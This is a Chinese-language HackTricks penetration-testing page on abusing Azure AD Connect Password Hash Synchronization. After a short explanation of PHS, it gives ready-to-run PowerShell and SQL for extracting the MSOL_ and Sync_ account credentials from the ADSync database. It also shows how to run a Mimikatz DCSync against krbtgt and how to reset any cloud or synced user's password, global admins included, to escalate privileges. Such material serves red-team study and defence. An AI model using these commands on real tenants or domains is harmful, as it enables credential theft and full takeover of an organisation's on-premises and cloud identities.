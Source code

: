 # Az - PHS - 密码哈希同步

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **密码哈希同步** 是实现混合身份的一种登录方法。**Azure AD Connect** 将用户密码的哈希值的哈希值从本地 Active Directory 实例同步到基于云的 Azure AD 实例。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地 AD 与 Azure AD 同步的 **最常见方法**。

所有 **用户** 和 **密码哈希的哈希** 都从本地同步到 Azure AD。然而，**明文密码** 或 **原始** **哈希** 不会发送到 Azure AD。\
此外，**内置** 安全组（如域管理员等）不会 **同步** 到 Azure AD。

**哈希同步** 每 **2 分钟** 发生一次。然而，默认情况下，**密码过期** 和 **帐户** **过期** 在 Azure AD 中 **不同步**。因此，**本地密码过期**（未更改）的用户可以继续使用旧密码 **访问 Azure 资源**。

当本地用户想要访问 Azure 资源时，**身份验证发生在 Azure AD**。

**PHS** 是 **身份保护** 和 AAD 域服务等功能所必需的。

## 侧向移动

当配置 PHS 时，一些 **特权帐户** 会自动 **创建**：

* 帐户 **`MSOL_<installationID>`** 会在本地 AD 中自动创建。该帐户被赋予 **目录同步帐户** 角色（见 [文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地 AD 中具有 **复制 (DCSync) 权限**。
* 帐户 **`Sync_<name of on-prem ADConnect Server>_installationID`** 会在 Azure AD 中创建。该帐户可以 **重置 Azure AD 中任何用户**（同步或仅云）的密码。

这两个特权帐户的密码 **存储在 SQL 服务器** 上，该服务器上安装了 **Azure AD Connect**。管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**加密配置** 使用 **DPAPI** 加密，并包含本地 AD 中 **`MSOL_*`** 用户的 **密码** 和 AzureAD 中 **Sync\_\*** 的密码。因此，妥协这些信息可以提升到 AD 和 AzureAD 的权限。

您可以在 [这次演讲中找到有关这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD Connect 服务器**

如果 **安装 Azure AD Connect 的服务器** 加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

妥协 **`Sync_*`** 账户可以 **重置任何用户的密码**（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也可以**仅修改云**用户的密码（即使这出乎意料）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
可以转储该用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，而**Sync**用户有**权限**这样做，然后**访问该服务主体**作为特权提升的方法。
{% endhint %}

### 无缝单点登录

可以使用PHS进行无缝单点登录，但它容易受到其他滥用。请查看：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
